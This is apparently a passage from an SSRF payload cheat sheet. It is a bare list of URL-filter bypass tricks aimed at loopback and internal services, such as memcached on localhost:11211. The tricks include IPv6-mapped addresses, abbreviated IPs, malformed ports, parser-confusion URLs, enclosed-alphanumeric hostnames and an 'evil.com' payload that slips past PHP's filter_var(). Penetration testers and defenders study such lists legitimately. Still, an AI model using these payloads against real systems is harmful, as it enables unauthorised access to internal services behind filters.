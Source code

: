 ```
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### **Bypass using malformed urls** ###

```
localhost:+11211aaa
localhost:00011211aaaa
```

### **Bypass using rare address** ###

```
You can short-hand IP addresses by dropping the zeros
http://0/
http://127.1
http://127.0.1
```

### **Bypass using bash variables** ###

```
cURL only

curl -v "http://evil$google.com"
$google = ""
```

### **Bypass using tricks combination** ###

```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### **Bypass using enclosed alphanumerics** ###

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### **Bypass filter\_var() php function** ###

```
0://evil.com:80;http://google.com:80/
```

